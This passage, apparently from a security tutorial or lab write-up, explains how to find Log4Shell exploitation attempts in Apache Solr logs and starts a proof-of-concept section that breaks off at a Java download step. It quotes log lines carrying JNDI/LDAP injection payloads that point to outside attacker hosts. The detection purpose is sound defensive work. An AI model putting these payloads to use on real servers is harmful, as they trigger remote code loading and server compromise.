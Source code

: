 **Apache solr**

In apache solr, the log files are stored in the below location

```
/var/solr/logs
```

And if you visit the admin page of apache solr of your installation you will see that

```
-Dsolr.log.dir = /var/solr/logs
```

This indicates where logs are saved. Attackers payloads appear in a log file named \[solr.log]. If you opened the file and noticed lines similar to the below ones then it means attackers are trying to exploit it

```
2021-12-14 07:55:06.155 INFO  (qtp1008315045-21) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={foo=${jndi:ldap://10.10.118.124:4545}} status=0 QTime=0

2021-12-14 07:55:45.868 INFO  (qtp1008315045-18) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0

2021-12-14 07:56:33.501 INFO  (qtp1008315045-18) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={foo=${jndi:ldap://10.10.118.124:4545}} status=0 QTime=0

2021-12-14 07:57:31.728 INFO  (qtp1008315045-19) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={foo=${jndi:ldap://10.10.166.62:4545}} status=0 QTime=0

2021-12-14 07:58:17.003 INFO  (qtp1008315045-14) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0

2021-12-14 08:12:47.288 INFO  (qtp1008315045-19) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={foo=${jndi:ldap://10.10.166.62:1389/Exploit}} status=0 QTime=1

2021-12-14 08:14:02.628 INFO  (qtp1008315045-23) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={foo=${jndi:ldap://10.10.166.62:1389/Exploit}} status=0 QTime=0

2021-12-14 08:17:34.503 INFO  (qtp1008315045-17) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={foo=${jndi:ldap://10.10.166.62:1389/Exploit}} status=0 QTime=0

```

As you can see requests go to \[/solr/admin/cores] followed by a parameter that uses the \[jndi] to communicate via \[ldap] with the attacker \[LDAP referral server].

**Apache solr POC**

Step one: Installing Java \[1.8.0\_181] on your machine. This is done by downloading the package from below URL

```
http://mirrors.rootpei.com/jdk/
file: jdk-8u181-linux-x64.tar.gz
```
